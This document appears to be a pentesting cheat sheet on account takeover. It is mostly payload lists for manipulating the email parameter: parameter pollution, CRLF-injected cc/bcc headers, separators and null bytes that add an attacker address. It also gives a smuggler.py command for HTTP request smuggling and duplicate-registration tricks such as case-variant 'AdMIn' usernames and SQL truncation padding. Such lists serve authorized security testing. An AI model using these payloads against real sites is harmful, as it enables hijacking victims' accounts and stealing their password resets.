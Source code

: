 ### **ATO from manipulating the email Parameter**
```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com**,**victim@hack.secry  
email@email**“,”**victim@hack.secry  
email@email.com**:**victim@hack.secry  
email@email.com**%0d%0a**victim@hack.secry  
**%0d%0a**victim@hack.secry  
**%0a**victim@hack.secry  
victim@hack.secry**%0d%0a**  
victim@hack.secry**%0a**  
victim@hack.secry**%0d** 
victim@hack.secry**%00**  
victim@hack.secry**{{}}**
```
### ATO Via Request Smuggling
```python
# Single Host: 
python3 smuggler.py -u <URL> 
# List of hosts: 
cat list_of_hosts.txt | python3 smuggler.py
```
[HTTP Request Smuggling leads to Full Accounts takeover](https://itsfading.github.io/posts/I-owe-your-Request-HTTP-Request-Smuggling-leads-to-Full-Accounts-takeover/)

### Duplicate Registration
1. Make 2 Accounts Same in everything [username and another things] but with Different email ID >> **ATO**
	- [Duplicate Registration - The Twinning Twins | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/duplicate-registration-the-twinning-twins-883dfee59eaf)
	- Create user named: **AdMIn** (uppercase & lowercase letters)
	- Create a user named: **admin=**
	- **SQL Truncation Attack** (when there is some kind of **length limit** in the username or email) --> Create user with name: **admin [a lot of spaces] a**
1. Play with email Parameter
	- uppsercase
	- +1@
	- add some some in the email
	- special characters in the email name (%00, %09, %20)
	- Put black characters after the email: `test@test.com a`
	- victim@gmail.com@attacker.com
	- victim@attacker.com@gmail.com

